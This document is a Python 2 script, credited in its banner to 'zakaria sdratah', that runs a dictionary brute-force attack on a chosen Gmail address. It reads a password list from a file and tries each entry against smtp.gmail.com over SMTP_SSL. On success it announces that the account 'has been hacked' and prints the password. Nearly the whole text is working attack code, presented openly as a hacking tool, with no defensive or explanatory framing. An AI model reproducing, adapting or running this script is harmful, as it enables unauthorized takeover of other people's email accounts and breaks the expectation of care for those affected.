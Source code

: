 #!/usr/bin/python

'''coded by zakaria sdratah'''

import smtplib

from os import system

def main():

   print '================================================='

   print '               coded by zakaria sdratah              '

   print '================================================='

   print '               ++++++++++++++++++++              '

   print '\n                                               '

   print '  _,.                                            '

   print '                                                 '

   print '                                                 '

   print '                                                 '

   print '       _,.                   '

   print '     ,` -.)                  '

   print '    ( _/-\\-._               '

   print '   /,|`--._,-^|            , '

   print '   \_| |`-._/||          , | '

   print '     |  `-, / |         /  / '

   print '     |     || |        /  /  '

   print '      `r-._||/   __   /  /   '

   print '  __,-<_     )`-/  `./  /    '

   print '  \   `---    \   / /  /     '

   print '     |           |./  /      '

   print '     /           //  /       '

   print ' \_/  \         |/  /        '

   print '  |    |   _,^- /  /         '

   print '  |    , ``  (\/  /_         '

   print '   \,.->._    \X-=/^         '

   print '   (  /   `-._//^`           '

   print '    `Y-.____(__}             '

   print '     |     {__)              ' 

   print '           ()                '

main()

print '[1] start the brute force attack'

print '[2] exit'

option = input('==>')

if option == 1:

   file_path = raw_input('enter the path of passwords file :')

else:

   system('clear')

   exit()

pass_file = open(file_path,'r')

pass_list = pass_file.readlines()

def login():

    i = 0

    user_name = raw_input('enter the target email :')

    server = smtplib.SMTP_SSL('smtp.gmail.com', 465)

    server.ehlo()

    for password in pass_list:

      i = i + 1

      print str(i) + '/' + str(len(pass_list))

      try:

         server.login(user_name, password)

         system('clear')

         main()

         print '\n'

         print '[+] this account has been hacked, password :' + password + '     ^_^'

         break

      except smtplib.SMTPAuthenticationError as e:

         error = str(e)

         if error[14] == '<':

            system('clear')

            main()

            print '[+] this account has been hacked, password :' + password + '     ^_^'

            break

         else:

            print '[!] password not found => ' + password

login()
